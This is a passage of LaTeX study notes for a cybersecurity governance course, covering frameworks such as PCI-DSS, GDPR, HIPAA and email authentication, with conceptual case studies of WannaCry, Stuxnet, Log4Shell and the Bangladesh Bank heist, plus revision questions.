  \item \textbf{Annex A Controls (93 Controls):} Grouped into 4 themes: Organizational Controls (37), People Controls (8), Physical Controls (14), and Technological Controls (34).
\end{itemize}

% ===============================================================================
\section{Sector-Specific Systems: E-Commerce, ICS \& Mobile}
% ===============================================================================

\subsection{PCI-DSS E-Commerce Security Architecture}
The Payment Card Industry Data Security Standard (PCI-DSS v4.0) mandates 12 core security requirements across 6 goals:

{\renewcommand{\arraystretch}{1.45}%
\begin{tabularx}{\linewidth}{|B{4.5cm}|Y|}
\hline
\textbf{PCI-DSS Core Goal} & \textbf{Mandatory Security Control Requirement} \\
\hline
Secure Network & Install and maintain firewalls; prohibit vendor default passwords. \\
\hline
Protect Cardholder Data & Encrypt cardholder data in transit (TLS 1.3) and at rest (AES-256). \\
\hline
Vulnerability Program & Protect systems against malware; develop secure web apps (OWASP Top 10). \\
\hline
Strong Access Control & Restrict access by business need-to-know; enforce MFA for all access. \\
\hline
Monitor \& Test Networks & Track and monitor all network access; perform quarterly penetration tests. \\
\hline
Information Security Policy & Maintain formal security policy and conduct annual compliance audits. \\
\hline
\end{tabularx}}

\subsection{Industrial Control Systems (ICS / SCADA) and Purdue Model}
Operational Technology (OT) manages physical industrial processes (power grids, oil pipelines):
\begin{itemize}[leftmargin=*, itemsep=3pt]
  \item \textbf{Purdue Enterprise Reference Architecture (PERA):}
    \begin{itemize}
      \item \textit{Level 0--1:} Physical process sensors, actuators, and Programmable Logic Controllers (PLCs).
      \item \textit{Level 2:} Control systems (SCADA HMIs, operator consoles).
      \item \textit{Level 3:} Site manufacturing operations (historians, OT monitoring).
      \item \textit{Level 3.5:} Industrial Demilitarized Zone (IDMZ) air gap firewalls separating OT from enterprise IT (Levels 4--5).
    \end{itemize}
\end{itemize}

\subsection{Personal Mobile Devices \& BYOD}
Bring Your Own Device (BYOD) allows personal employee devices on corporate networks:
\begin{itemize}[leftmargin=*, itemsep=3pt]
  \item \textbf{MDM Controls:} Enforcing storage encryption, remote wipe capabilities, and passcode length.
  \item \textbf{App Containerization:} Creating encrypted sandboxed zones separating personal apps from corporate email/data.
\end{itemize}

% ===============================================================================
\section{Security Management Goals, Policy Taxonomy \& Documentation}
% ===============================================================================

\subsection{Arriving at Goals \& Tone at the Top}
\begin{itemize}[leftmargin=*, itemsep=3pt]
  \item \textbf{Tone at the Top:} Executive leadership's active support, funding, and visible enforcement of security policies across the enterprise.
  \item \textbf{Arriving at Goals:} Translating business strategies into specific, measurable security policy objectives (SMART goals: Specific, Measurable, Achievable, Relevant, Time-bound).
\end{itemize}

\subsection{Policy as a Project}
Managing policy authoring through formal project management phases:
\[
\text{Initiation} \longrightarrow \text{Drafting} \longrightarrow \text{Stakeholder Review} \longrightarrow \text{Legal Approval} \longrightarrow \text{Publication} \longrightarrow \text{Annual Maintenance}
\]

\subsection{Cyber Security Documentation, Taxonomy \& Catalog Format}
\begin{itemize}[leftmargin=*, itemsep=3pt]
  \item \textbf{The Catalog Approach:} A centralized, version-controlled repository structuring all corporate security policies under a standardized taxonomy.
  \item \textbf{Catalog Format:} Every policy document follows a mandatory structured format: Header/ID, Purpose, Scope, Policy Statements, Compliance Roles, Enforcement Penalties, Exception Process, and Version History.
  \item \textbf{Cyber Security Policy Taxonomy:} Hierarchical classification system grouping policies logically into Operational, Administrative, Technical, and Physical domains.
\end{itemize}

% ═══════════════════════════════════════════════════════════════════════════════
% QUICK REVISION PAGE
% ═══════════════════════════════════════════════════════════════════════════════
\newpage
\begin{center}
  {\large\bfseries\color{myred} Quick Revision --- Module 2}\\[3pt]
  {\small\color{mydark} Cyber Security Objectives, Guidance \& Frameworks $|$ OE-EC803C}
\end{center}
\noindent{\color{myred}\rule{\linewidth}{1.2pt}}
\vspace{4pt}

\begin{tcolorbox}[formulabox, title={\textbf{Key Concepts and Metrics at a Glance}}]
\renewcommand{\arraystretch}{1.35}
\begin{tabularx}{\linewidth}{B{4.8cm} X}
NIST CSF Core 5 & Identify, Protect, Detect, Respond, Recover. \\[3pt]
CVSS Score Ranges & Critical ($9.0\text{--}10.0$), High ($7.0\text{--}8.9$), Medium ($4.0\text{--}6.9$), Low ($0.1\text{--}3.9$). \\[3pt]
PCI-DSS Standard & 12 mandatory security goals for organizations processing credit card payments. \\[3pt]
Log4Shell Flaw & CVSS 10.0 Remote Code Execution (RCE) flaw in Apache Log4j2 JNDI parsing. \\[3pt]
Purdue Level 3.5 & Industrial DMZ (IDMZ) air gap isolating OT control networks from enterprise IT.
\end{tabularx}
\end{tcolorbox}

\begin{tcolorbox}[defbox, title={\textbf{One-Line Definitions}}]
\begin{itemize}[leftmargin=*, itemsep=2pt, topsep=0pt]
  \item \textbf{Tone at the Top:} Visible executive backing essential for organizational security compliance.
  \item \textbf{MDM Containerization:} Encrypted sandboxing separating corporate data from personal phone storage.
  \item \textbf{SCADA HMI:} Human-Machine Interface allowing operators to control industrial physical machinery.
  \item \textbf{MTTD / MTTR:} Mean Time to Detect vs Mean Time to Respond/Remediate security breaches.
\end{itemize}
\end{tcolorbox}

\begin{tcolorbox}[exambox, title={\textbf{Frequently Asked / Viva Questions}}]
\begin{enumerate}[leftmargin=*, label=\textbf{Q\arabic*.}, itemsep=5pt, topsep=0pt]
  \item \Q{Name the 5 core functions of the NIST Cybersecurity Framework (CSF).}
        Identify, Protect, Detect, Respond, and Recover.

  \item \Q{What is CVSS and how are its score ranges categorized?}
        Common Vulnerability Scoring System ($0\text{--}10$ scale): Low ($0.1\text{--}3.9$), Medium ($4.0\text{--}6.9$), High ($7.0\text{--}8.9$), Critical ($9.0\text{--}10.0$).

  \item \Q{Explain the Log4Shell (CVE-2021-44228) case study.}
        A CVSS 10.0 flaw in Log4j2 where unauthenticated JNDI lookup strings executed arbitrary Remote Code Execution (RCE) on servers.

  \item \Q{What is PCI-DSS and what does it mandate for cardholder data?}
        Payment Card Industry Data Security Standard; mandates encrypted storage (AES-256), TLS 1.3 transit encryption, and quarterly vulnerability scans.

  \item \Q{Explain the Purdue Model Level 3.5 in OT/SCADA security.}
        The Industrial DMZ (IDMZ) containing firewalls and proxy servers that physically and logically separate enterprise IT networks from critical OT plant networks.

  \item \Q{What is Mobile Device Management (MDM)?}
        An enterprise administration platform enforcing passcode complexity, storage encryption, containerization, and remote wipe capabilities on smartphones.

  \item \Q{Differentiate between MTTD and MTTR.}
        MTTD measures average time taken to detect a breach; MTTR measures average time taken to contain and remediate the breach.

  \item \Q{What is ISO/IEC 27001 Annex A?}
        A set of 93 security controls across 4 operational themes (Organizational, People, Physical, Technological) required for ISMS certification.

  \item \Q{What is Tone at the Top in security management?}
        Executive leadership's active support, funding, and personal adherence to security policies, establishing an organizational security culture.

  \item \Q{Explain the concept of Policy as a Project.}
        Structuring policy creation through formal lifecycle phases: Initiation $\to$ Drafting $\to$ Stakeholder Review $\to$ Approval $\to$ Publication $\to$ Maintenance.

  \item \Q{What is a CVE ID?}
        A unique public identifier (e.g. CVE-2023-1234) assigned to specific software security vulnerabilities cataloged in the NIST NVD.

  \item \Q{Why are legacy SCADA systems difficult to patch?}
        Because industrial PLCs require 24/7 continuous operation, cannot tolerate software reboot downtime, and lack basic hardware encryption support.

  \item \Q{What is App Containerization in BYOD mobile security?}
        Creating an encrypted, isolated partition on an employee's personal device to run corporate apps without accessing personal photos or data.

  \item \Q{Explain the 4 themes of ISO/IEC 27001:2022 controls.}
        Organizational Controls (37), People Controls (8), Physical Controls (14), and Technological Controls (34).

  \item \Q{What is an SLA in vulnerability remediation?}
        Service Level Agreement dictating mandatory timeframes to patch vulnerabilities based on CVSS severity (e.g., Critical patched within 24--48 hours).
\end{enumerate}
\end{tcolorbox}

\begin{tcolorbox}[tikzbox, title={Summary Comparison: Industry Security Frameworks}]
\centering
{\renewcommand{\arraystretch}{1.45}%
\begin{tabularx}{\linewidth}{|B{2.8cm}|Y|Y|Y|}
\hline
\textbf{Framework} & \textbf{Primary Focus} & \textbf{Audit Type} & \textbf{Target Audience} \\
\hline
NIST CSF & Risk Reduction & Self-Assessment & Critical Infrastructure \& Enterprise \\
\hline
ISO/IEC 27001 & Formal ISMS Audit & Accredited Third-Party & Global Corporations \\
\hline
PCI-DSS v4.0 & Payment Card Safety & Qualified Assessor & Merchants \& Gateways \\
\hline
CIS Controls & Technical Defenses & Implementation Group & SOC \& IT Engineers \\
\hline
\end{tabularx}}
\end{tcolorbox}


% -- Module 3 -----------------------------------------------------------------
\modulestart{3}{Cyber Governance \& Internet Architecture}

\section{Cyber Governance \& Internet Architecture}
% ===============================================================================

Cyber Governance encompasses the multi-stakeholder international coordination of root internet infrastructure, domain name assignment, and net neutrality policies.

\begin{tcolorbox}[defbox, title={\textbf{Definition: ICANN, DNSSEC \& Net Neutrality}}]
\begin{itemize}[leftmargin=*, itemsep=3pt]
  \item \textbf{ICANN \& Internet Names and Numbers:} Internet Corporation for Assigned Names and Numbers; manages global IP address space (IPv4/IPv6 via IANA) and DNS root zone servers.
  \item \textbf{DNSSEC (DNS Security Extensions):} Adds digital signatures (`RRSIG`, `DNSKEY`) to DNS records, allowing resolvers to cryptographically verify DNS response authenticity and prevent DNS Cache Poisoning.
  \item \textbf{Net Neutrality:} Principle mandating ISPs to treat all web data packets equally, prohibiting traffic throttling, blocking, or paid fast-lane prioritization.
\end{itemize}
\end{tcolorbox}

\subsection{Copyright and Trademarks in Cyberspace}
Digital content protection introduces unique intellectual property enforcement issues online:
\begin{itemize}[leftmargin=*, itemsep=3pt]
  \item \textbf{Digital Copyright \& DMCA:} Digital Millennium Copyright Act (DMCA) protects proprietary digital software, media, and code through anti-circumvention rules and Notice-and-Takedown procedures.
  \item \textbf{Trademark Infringement \& Cybersquatting:} Registering domain names matching registered brand trademarks (e.g. `g00gle.com`) to confuse users or extort ransom. Regulated under ICANN's Uniform Domain-Name Dispute-Resolution Policy (UDRP).
\end{itemize}

% ===============================================================================
\section{Email Security, Messaging \& Cyber User Issues}
% ===============================================================================

Email and instant messaging represent the primary initial access vector for over 90\% of enterprise cyber attacks targeting human user vulnerabilities.

\begin{tcolorbox}[tikzbox, title={Email Authentication Verification Stack (SPF, DKIM, DMARC)}]
\centering

\begin{tikzpicture}[node distance=0.8cm and 1.2cm,
  spf/.style={rectangle, draw=myteal, fill=hdrteal, text width=3.4cm, align=center, minimum height=0.85cm, font=\small\bfseries, rounded corners=3pt, line width=0.8pt},
  dkim/.style={rectangle, draw=myamber, fill=hdramber, text width=3.4cm, align=center, minimum height=0.85cm, font=\small\bfseries, rounded corners=3pt, line width=0.8pt},
  dmarc/.style={rectangle, draw=mypurple, fill=hdrpurple, text width=3.4cm, align=center, minimum height=0.85cm, font=\small\bfseries, rounded corners=3pt, line width=0.8pt},
  arrow/.style={-Stealth, thick, color=mydark}]

  \node[spf] (s) at (0,0) {SPF Verification\\(IP Whitelist TXT)};
  \node[dkim] (k) at (4.2,0) {DKIM Verification\\(RSA Signature TXT)};
  \node[dmarc] (d) at (8.4,0) {DMARC Policy\\(Reject / Quarantine)};

  \draw[arrow] (s) -- (k);
  \draw[arrow] (k) -- (d);

\end{tikzpicture}
\end{tcolorbox}

\subsection{Email Protocol Mechanics}
\begin{enumerate}[leftmargin=*, itemsep=3pt]
  \item \textbf{SPF (Sender Policy Framework):} DNS record listing IP addresses authorized to send mail for a domain.
  \item \textbf{DKIM (DomainKeys Identified Mail):} Attaches an RSA digital signature to message headers, verified against the sender domain's public DNS key.
  \item \textbf{DMARC:} Evaluates SPF and DKIM alignment, instructing receiving servers how to enforce policy (`p=none`, `p=quarantine`, `p=reject`).
\end{enumerate}

\subsection{Impersonation Attacks, Malvertising \& Appropriate Use}
\begin{itemize}[leftmargin=*, itemsep=3pt]
  \item \textbf{Phishing vs Spear Phishing vs Whaling:} Broad credential harvesting emails vs customized targeted emails vs executive-targeted attacks.
  \item \textbf{Business Email Compromise (BEC):} Attackers compromise legitimate executive email accounts to order fraudulent wire transfers.
  \item \textbf{Malvertising:} Injecting malicious scripts into advertising networks to trigger drive-by malware downloads.
  \item \textbf{Appropriate Use Enforcement:} Implementing technical monitoring to ensure compliance with organization Acceptable Use Policies (AUP).
\end{itemize}

% ===============================================================================
\section{Cyber Crime, Geolocation, Privacy \& Intellectual Property Theft}
% ===============================================================================

\subsection{Geolocation \& Jurisdictional Enforcement}
Cyber crime operates borderlessly across geographical boundaries:
\begin{itemize}[leftmargin=*, itemsep=3pt]
  \item \textbf{Geo-location Tracking:} Utilizing IP geolocation databases and GPS telemetry to trace attack traffic or enforce regional content access control (geofencing).
  \item \textbf{Jurisdictional Conflict:} Attackers route malicious traffic through proxy servers across multiple foreign sovereign nations, impeding international law enforcement extradition.
\end{itemize}

\subsection{GDPR Data Privacy Principles}
The EU General Data Protection Regulation (GDPR) mandates 7 core principles:
\begin{enumerate}[leftmargin=*, itemsep=3pt]
  \item \textbf{Lawfulness, Fairness, and Transparency:} Valid consent required for processing.
  \item \textbf{Purpose Limitation:} Collecting data strictly for specified legitimate purposes.
  \item \textbf{Data Minimization:} Collecting only necessary data fields.
  \item \textbf{Accuracy:} Maintaining up-to-date accurate records.
  \item \textbf{Storage Limitation:} Deleting data when no longer required (Right to be Forgotten).
  \item \textbf{Integrity and Confidentiality:} Mandating AES encryption and breach notification within 72 hours.
  \item \textbf{Accountability:} Demonstrating continuous compliance.
\end{enumerate}

{\renewcommand{\arraystretch}{1.45}%
\begin{tabularx}{\linewidth}{|B{3.5cm}|Y|Y|}
\hline
\textbf{Cyber Crime Category} & \textbf{Modus Operandi} & \textbf{Primary Mitigation Control} \\
\hline
Financial Cyber Crime & Banking Trojans, SIM swapping, credit card skimming. & Multi-Factor Authentication (MFA), fraud monitoring. \\
\hline
Identity Theft & Stealing PII to fraudulently open accounts/loans. & Credit monitoring, Data Loss Prevention (DLP). \\
\hline
Intellectual Property Theft & Exfiltrating trade secrets, industrial designs, source code. & Data Loss Prevention (DLP), DRM encryption. \\
\hline
Ransomware & Cryptographic file locking demanding Bitcoin ransom. & Immutable offline backups, endpoint EDR agents. \\
\hline
\end{tabularx}}

\begin{tcolorbox}[examplebox, title={\textbf{Real-World Case Study: WannaCry Ransomware Pandemic (2017)}}]
\begin{enumerate}[leftmargin=*, itemsep=3pt]
  \item \textbf{Exploit Vector:} Leveraged the NSA `EternalBlue` exploit (CVE-2017-0144) targeting unpatched Microsoft Windows SMBv1 protocol.
  \item \textbf{Impact:} Encrypted 200,000+ computers across 150 countries within hours (crippling the UK NHS hospitals and FedEx).
  \item \textbf{Mitigation:} Stopped when security researcher Marcus Hutchins registered the hardcoded kill-switch domain (`iuqerfsodp9ifjaposdfjhgosurijfaewrwerg.com`).
\end{enumerate}
\end{tcolorbox}

% ===============================================================================
\section{Cyber Conflict, Espionage, Sabotage \& Warfare}
% ===============================================================================

\begin{tcolorbox}[defbox, title={\textbf{Definition: Cyber Warfare, Espionage \& Sabotage}}]
\begin{itemize}[leftmargin=*, itemsep=3pt]
  \item \textbf{Cyber Espionage:} Unauthorized covert intrusion into state or corporate networks to steal classified strategic intelligence.
  \item \textbf{Cyber Sabotage:} Deliberate destruction or physical disruption of critical physical assets using malware.
  \item \textbf{Cyber Warfare:} Nation-state cyber operations producing casualties or destruction equivalent to conventional armed attacks.
\end{itemize}
\end{tcolorbox}

\begin{tcolorbox}[examplebox, title={\textbf{Historical Case Study: Stuxnet Natanz Centrifuge Sabotage (2010)}}]
\begin{enumerate}[leftmargin=*, itemsep=3pt]
  \item \textbf{Target:} Iran's Natanz nuclear enrichment facility running Siemens S7-300 PLCs.
  \item \textbf{Vector:} Air-gapped network breached via infected USB drives using 4 Windows Zero-day exploits.
  \item \textbf{Payload:} Altered PLC rotor frequency speeds, spinning centrifuges out of control to self-destruction while sending fake normal telemetry data to monitoring consoles.
\end{enumerate}
\end{tcolorbox}

% ═══════════════════════════════════════════════════════════════════════════════
% QUICK REVISION PAGE
% ═══════════════════════════════════════════════════════════════════════════════
\newpage
\begin{center}
  {\large\bfseries\color{myred} Quick Revision --- Module 3}\\[3pt]
  {\small\color{mydark} Cyber Governance Issues, Crimes \& Conflicts $|$ OE-EC803C}
\end{center}
\noindent{\color{myred}\rule{\linewidth}{1.2pt}}
\vspace{4pt}

\begin{tcolorbox}[formulabox, title={\textbf{Key Concepts and Metrics at a Glance}}]
\renewcommand{\arraystretch}{1.35}
\begin{tabularx}{\linewidth}{B{4.8cm} X}
Email Verification Triad & SPF (IP validation), DKIM (RSA signature), DMARC (enforcement policy). \\[3pt]
DNSSEC Security & Adds cryptographic signatures (`RRSIG`) to DNS records to prevent cache poisoning. \\[3pt]
WannaCry Malware & Global ransomware spreading via EternalBlue SMBv1 exploit; stopped by kill-switch domain. \\[3pt]
Stuxnet Attack & Cyber weapon that destroyed physical Iranian nuclear centrifuges via Siemens PLCs. \\[3pt]
GDPR Breach SLA & Mandatory reporting of personal data breaches to regulators within 72 hours.
\end{tabularx}
\end{tcolorbox}

\begin{tcolorbox}[defbox, title={\textbf{One-Line Definitions}}]
\begin{itemize}[leftmargin=*, itemsep=2pt, topsep=0pt]
  \item \textbf{Net Neutrality:} Mandatory equal treatment of all web traffic without ISP throttling or fast lanes.
  \item \textbf{BEC Fraud:} Impersonating executive email accounts to order unauthorized wire transfers.
  \item \textbf{Data Sovereignty:} Laws mandating citizen data generated locally must remain within national borders.
  \item \textbf{Spear Phishing:} Highly customized phishing attack targeting a specific individual.
\end{itemize}
\end{tcolorbox}

\begin{tcolorbox}[exambox, title={\textbf{Frequently Asked / Viva Questions}}]
\begin{enumerate}[leftmargin=*, label=\textbf{Q\arabic*.}, itemsep=5pt, topsep=0pt]
  \item \Q{Define Net Neutrality and state its core rules.}
        Mandates that ISPs treat all internet traffic equally, prohibiting traffic blocking, throttling, or paid prioritization.

  \item \Q{Explain the function of SPF in email security.}
        SPF uses a DNS TXT record listing IP addresses authorized to send emails for a domain, preventing header spoofing.

  \item \Q{How does DKIM authenticate outgoing emails?}
        DKIM attaches a cryptographic digital signature to the email header; receiving mail servers verify it using the sender's public DNS key.

  \item \Q{What is DMARC and what policy actions does it mandate?}
        DMARC checks SPF and DKIM alignment, instructing receiving servers to enforce `none`, `quarantine`, or `reject` policies on invalid emails.

  \item \Q{Describe the WannaCry ransomware pandemic.}
        WannaCry infected 200,000+ computers across 150 countries by exploiting the SMBv1 `EternalBlue` vulnerability, encrypting hard drives for Bitcoin ransom.

  \item \Q{Explain the significance of the Stuxnet worm.}
        Stuxnet was the first cyber weapon to cause physical infrastructure destruction, ruining 1,000+ Iranian nuclear centrifuges via Siemens PLCs.

  \item \Q{What is Business Email Compromise (BEC)?}
        A social engineering fraud scheme where attackers compromise or spoof executive email accounts to trick financial staff into executing wire transfers.

  \item \Q{How does DNSSEC prevent DNS Cache Poisoning?}
        By signing DNS resource records with cryptographic keys (`RRSIG`), ensuring clients verify DNS response integrity before caching.

  \item \Q{What are the 7 core principles of GDPR?}
        Lawfulness, Purpose Limitation, Data Minimization, Accuracy, Storage Limitation, Integrity \& Confidentiality, and Accountability.

  \item \Q{What is Data Sovereignty?}
        The legal requirement that digital data created within a country must be subject to that nation's laws and stored within its physical boundaries.

  \item \Q{Define Malvertising.}
        Injecting malicious advertisements into legitimate ad networks to infect users via silent drive-by downloads without clicking.

  \item \Q{What is the role of ICANN in internet governance?}
        Managing global IP address allocation (IPv4/IPv6 via IANA), coordinating DNS root zone servers, and managing top-level domain (TLD) registries.

  \item \Q{Differentiate between Cyber Espionage and Cyber Sabotage.}
        Cyber Espionage focuses on secret intelligence gathering; Cyber Sabotage focuses on physical or operational system destruction.

  \item \Q{Explain the term 'Drive-by Download'.}
        Malware installation that occurs automatically upon visiting a compromised website without explicit user download consent.

  \item \Q{What is the GDPR breach notification timeframe?}
        Data controllers must notify relevant data protection authorities within 72 hours of becoming aware of a personal data breach.
\end{enumerate}
\end{tcolorbox}

\begin{tcolorbox}[tikzbox, title={Summary Comparison: Email Authentication Protocols}]
\centering
{\renewcommand{\arraystretch}{1.45}%
\begin{tabularx}{\linewidth}{|B{2.2cm}|Y|B{3.8cm}|Y|}
\hline
\textbf{Protocol} & \textbf{Verification Mechanism} & \textbf{DNS Record Type} & \textbf{Primary Defense Focus} \\
\hline
SPF & Validates Sending Mail Server IP & TXT (`v=spf1`) & Sender Address Spoofing \\
\hline
DKIM & Validates Cryptographic RSA Header & TXT (`selector.\_domainkey`) & Message Header Tampering \\
\hline
DMARC & Enforces Policy Alignment (`p=reject`) & TXT (`\_dmarc`) & Phishing \& Unauthenticated Delivery \\
\hline
\end{tabularx}}
\end{tcolorbox}


% -- Module 4 -----------------------------------------------------------------
\modulestart{4}{Critical Infrastructure Protection (CIP)}

\section{Critical Infrastructure Protection (CIP)}
% ===============================================================================

\begin{tcolorbox}[defbox, title={\textbf{Definition: Critical National Infrastructure (CNI)}}]
\textbf{Critical National Infrastructure (CNI)} encompasses physical and digital systems so vital to a sovereign nation that their disruption would severely paralyze national security, economic stability, public health, or safety.
\end{tcolorbox}

\subsection{Key Sector Threat Profiles and Vulnerabilities}
{\renewcommand{\arraystretch}{1.45}%
\begin{tabularx}{\linewidth}{|B{3.5cm}|Y|Y|}
\hline
\textbf{Sector} & \textbf{Target Systems} & \textbf{Critical Threat Vectors} \\
\hline
Banking \& Finance & SWIFT terminals, Core Banking, Payment Gateways. & Fraudulent wire transfers, ransomware, insider threats. \\
\hline
Healthcare & Electronic Health Records (EHR), IoMT Medical Devices. & Ransomware locking ICU systems, unencrypted patient PII. \\
\hline
Energy \& Power Grid & SCADA networks, Substation PLCs, Smart Meters. & State-sponsored sabotage, air-gap USB malware. \\
\hline
\end{tabularx}}

% ===============================================================================
\section{Economics, Finance, Banking \& Healthcare Security}
% ===============================================================================

\subsection{Economics of Cyber Security}
Cybersecurity is fundamentally an economic problem where threat actors exploit asymmetric costs:
\begin{itemize}[leftmargin=*, itemsep=3pt]
  \item \textbf{Asymmetric Cost Advantage:} Attackers require minimal capital investment to launch automated global exploits, whereas defenders incur high continuous operational costs to protect vast attack surfaces.
  \item \textbf{Return on Security Investment (ROSI):} Financial metric evaluating risk reduction value against defense control implementation costs:
  \[
  \text{ROSI} = \frac{(\text{Risk Exposure} \times \text{Mitigation \%}) - \text{Solution Cost}}{\text{Solution Cost}}
  \]
\end{itemize}

\subsection{SWIFT and Financial Network Security}
The Society for Worldwide Interbank Financial Telecommunication (SWIFT) connects global financial institutions:
\begin{itemize}[leftmargin=*, itemsep=3pt]
  \item \textbf{SWIFT Customer Security Controls Framework (CSCF):} Mandatory security controls regulating local bank terminal security, network segmentation, and credentials management (instigated after the \$81 Million Bangladesh Bank Heist).
  \item \textbf{Core Banking Security:} End-to-end hardware security modules (HSM) for PIN verification and transaction signing.
\end{itemize}

\begin{tcolorbox}[examplebox, title={\textbf{Real-World Case Study: Bangladesh Bank SWIFT Heist (2016)}}]
\begin{enumerate}[leftmargin=*, itemsep=3pt]
  \item \textbf{Infiltration Vector:} Attackers compromised local Bangladesh Bank terminal credentials using malware via unpatched network switches.
  \item \textbf{Execution:} Issued 35 fraudulent SWIFT requests totaling \$951 Million to the Federal Reserve Bank of New York.
  \item \textbf{Outcome:} Successfully transferred \$81 Million to casinos in the Philippines before a spelling error (`fandation` instead of `foundation`) alerted routing banks.
\end{enumerate}
\end{tcolorbox}

\subsection{Healthcare Cybersecurity Safeguards}
HIPAA Security Rule mandates three safeguard categories:
\begin{itemize}[leftmargin=*, itemsep=3pt]
  \item \textbf{Administrative Safeguards:} Security management policies, risk analysis, employee security awareness training.
  \item \textbf{Physical Safeguards:} Facility access controls, workstation security, media disposal rules.
  \item \textbf{Technical Safeguards:} Access control, audit logs, automatic logoff, AES-256 data encryption at rest and in transit.
\end{itemize}

% ===============================================================================
\section{Cyber Insurance \& Risk Transfer}
% ===============================================================================

\begin{tcolorbox}[defbox, title={\textbf{Definition: Cyber Insurance Coverage Tiers}}]
\begin{itemize}[leftmargin=*, itemsep=3pt]
  \item \textbf{First-Party Coverage:} Directly reimburses the policyholder for forensic investigation costs, ransomware extortion payments, business interruption loss, and customer notification fees.
  \item \textbf{Third-Party Coverage:} Covers legal defense fees, settlements, and regulatory fines resulting from lawsuits by affected third-party customers.
\end{itemize}
\end{tcolorbox}

\subsection{Underwriting and Actuarial Challenges}
\begin{enumerate}[leftmargin=*, itemsep=3pt]
  \item \textbf{Systemic / Accumulation Risk:} A single zero-day bug (e.g. cloud outage) can trigger simultaneous claims across millions of policyholders, risking insurer insolvency.
  \item \textbf{War Exclusion Clauses:} Insurers often deny payouts citing `Act of War` clauses for state-sponsored attacks (e.g., NotPetya litigation).
  \item \textbf{Moral Hazard:} Insured organizations relaxing security measures relying on insurance payouts.
\end{enumerate}

% ===============================================================================
\section{Cyber Security in International Relations}
% ===============================================================================

\begin{tcolorbox}[tikzbox, title={Tallinn Manual Use of Force Escalation Thresholds}]
\centering

\begin{tikzpicture}[node distance=0.8cm and 1.2cm,
  n1/.style={rectangle, draw=myteal, fill=hdrteal, text width=3.4cm, align=center, minimum height=0.85cm, font=\small\bfseries, rounded corners=3pt, line width=0.8pt},
  n2/.style={rectangle, draw=myamber, fill=hdramber, text width=3.4cm, align=center, minimum height=0.85cm, font=\small\bfseries, rounded corners=3pt, line width=0.8pt},
  n3/.style={rectangle, draw=myred, fill=hdrred, text width=3.4cm, align=center, minimum height=0.85cm, font=\small\bfseries, rounded corners=3pt, line width=0.8pt},
  arrow/.style={-Stealth, thick, color=mydark}]

  \node[n1] (c1) at (0,0) {Cyber Intrusion\\(Espionage / Recon)};
  \node[n2] (c2) at (4.2,0) {Use of Force\\(Article 2(4) UN Charter)};
  \node[n3] (c3) at (8.4,0) {Armed Attack\\(Article 51 Self-Defense)};

  \draw[arrow] (c1) -- (c2);
  \draw[arrow] (c2) -- (c3);

\end{tikzpicture}
\end{tcolorbox}

\subsection{International Treaties and Frameworks}
\begin{itemize}[leftmargin=*, itemsep=4pt]
  \item \textbf{Tallinn Manual 2.0:} Non-binding study on applying international law to cyber operations, defining when a cyber attack constitutes an `Armed Attack` under Article 51 of UN Charter.
  \item \textbf{Budapest Convention on Cybercrime (2001):} International treaty standardizing national cybercrime legislation and enabling cross-border digital evidence sharing.
  \item \textbf{UN GGE Norms:} Voluntary non-binding norms prohibiting states from damaging each other's critical infrastructure during peacetime.
\end{itemize}

% ═══════════════════════════════════════════════════════════════════════════════
% QUICK REVISION PAGE
% ═══════════════════════════════════════════════════════════════════════════════
\newpage
\begin{center}
  {\large\bfseries\color{myred} Quick Revision --- Module 4}\\[3pt]
  {\small\color{mydark} Cyber Infrastructure Issues \& International Relations $|$ OE-EC803C}
\end{center}
\noindent{\color{myred}\rule{\linewidth}{1.2pt}}
\vspace{4pt}

\begin{tcolorbox}[formulabox, title={\textbf{Key Concepts and Metrics at a Glance}}]
\renewcommand{\arraystretch}{1.35}
\begin{tabularx}{\linewidth}{B{4.8cm} X}
SWIFT CSCF & Mandatory baseline controls for global banking messaging terminals. \\[3pt]
HIPAA Safeguards & Administrative, Physical, and Technical controls for patient health data. \\[3pt]
First-Party Insurance & Covers direct losses (forensics, downtime, ransomware payments). \\[3pt]
Third-Party Insurance & Covers customer lawsuits and regulatory non-compliance fines. \\[3pt]
Tallinn Manual 2.0 & International legal manual defining cyber warfare armed attack thresholds.
\end{tabularx}
\end{tcolorbox}

\begin{tcolorbox}[defbox, title={\textbf{One-Line Definitions}}]
\begin{itemize}[leftmargin=*, itemsep=2pt, topsep=0pt]
  \item \textbf{CNI:} Critical National Infrastructure vital for national security and public safety.
  \item \textbf{Systemic Risk:} Cascading failure across dependent entities from a single cyber event.
  \item \textbf{Budapest Convention:} International treaty facilitating cross-border cybercrime prosecution.
  \item \textbf{Article 51 UN Charter:} Inherent right of self-defense against armed cyber attacks.
\end{itemize}
\end{tcolorbox}

\begin{tcolorbox}[exambox, title={\textbf{Frequently Asked / Viva Questions}}]
\begin{enumerate}[leftmargin=*, label=\textbf{Q\arabic*.}, itemsep=5pt, topsep=0pt]
  \item \Q{Define Critical National Infrastructure (CNI).}
        Systems and networks so vital that their incapacitation would paralyze national security, economy, or public safety.

  \item \Q{Describe the Bangladesh Bank SWIFT heist of 2016.}
        Attackers used malware on local bank terminals to issue 35 fraudulent SWIFT requests, stealing \$81 Million.

  \item \Q{Explain the 3 HIPAA safeguard categories for healthcare security.}
        Administrative Safeguards (policies), Physical Safeguards (facility controls), and Technical Safeguards (AES-256 encryption, access control).

  \item \Q{What is the Tallinn Manual 2.0?}
        An authoritative study detailing how international law applies to cyber espionage, sovereignty, and state-sponsored cyber warfare.

  \item \Q{Distinguish between First-Party and Third-Party Cyber Insurance.}
        First-party covers direct operational costs (forensics, ransomware, downtime); Third-party covers customer lawsuits and regulatory fines.

  \item \Q{What is Systemic Risk in cyber insurance underwriting?}
        The risk that a single zero-day exploit or cloud outage cascades across thousands of insured companies simultaneously.

